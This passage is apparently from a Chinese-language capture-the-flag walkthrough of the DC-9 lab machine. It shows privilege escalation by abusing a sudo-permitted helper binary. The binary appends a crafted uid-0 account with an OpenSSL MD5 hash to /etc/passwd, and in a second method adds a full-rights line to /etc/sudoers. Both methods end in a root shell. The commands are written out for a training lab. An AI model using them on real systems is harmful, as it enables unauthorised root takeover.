 > 该命令是使用 OpenSSL 工具生成一个密码的哈希值。
>
> openssl：是一个开源的加密工具集，提供了多种密码学功能。
> passwd：是 OpenSSL 工具集中的一个子命令，用于生成密码的哈希值。
> -1：这是一个选项，表示使用的是 MD5 哈希算法。MD5 为过时的哈希算法，不推荐在生产环境中使用。
> -salt co：这也是一个选项，指定了加盐的字符串。盐（salt）是为了增加密码哈希的复杂度和安全性而添加的随机字符串。这里的盐是"co"。
>
> -salt：产生一个随机数，并与-k指定的password串联，然后计算其Hash值来防御字典攻击和rainbow table攻击。
>
> 123456：这是要进行哈希的原始密码。

根据passwd格式，写出

```
co:$1$co$5eSY9siNSJ4oyan/wF6j50:0:0::/root:/bin/bash
```

写进/tmp/1

```bash
fredf@dc-9:/opt/devstuff$ cat /tmp/1
co:$1$co$5eSY9siNSJ4oyan/wF6j50:0:0::/root:/bin/bash
```

利用test文件追加到passwd文件

```bash
fredf@dc-9:/opt/devstuff$ sudo /opt/devstuff/dist/test/test /tmp/1 /etc/passwd
fredf@dc-9:/opt/devstuff$ su - co
Password:
root@dc-9:~# ls
theflag.txt
```

另一种提权方式，利用/etc/sudoers文件，同样可以

> 授权文件(sudoers)
> 用途原理
>
> sudo是给普通的用户使用让其可以执行特权命令，普通用户使用之前需要先配置授权文件。
> sudo命令的运行，需经历如下几步：
> 运行 sudo 命令，会先通过 /etc/sudoers 文件，验证该用户是否有运行 sudo 的权限；
> 确定用户具有使用 sudo 命令的权限后，用户输入自己的密码进行确认。
> 密码输入成功后，会执行 sudo 命令后面的命令。

查看kali的sudoers文件,它是这样的格式

`root    ALL=(ALL:ALL) ALL`

构造当前用户的命令

```
fredf    ALL=(ALL:ALL) ALL
```

```bash
fredf@dc-9:~$ cat /tmp/2
fredf    ALL=(ALL:ALL) ALL
fredf@dc-9:~$ sudo /opt/devstuff/dist/test/test /tmp/2 /etc/sudoers
fredf@dc-9:~$ sudo su -
[sudo] password for fredf:
root@dc-9:~# ls
theflag.txt
```
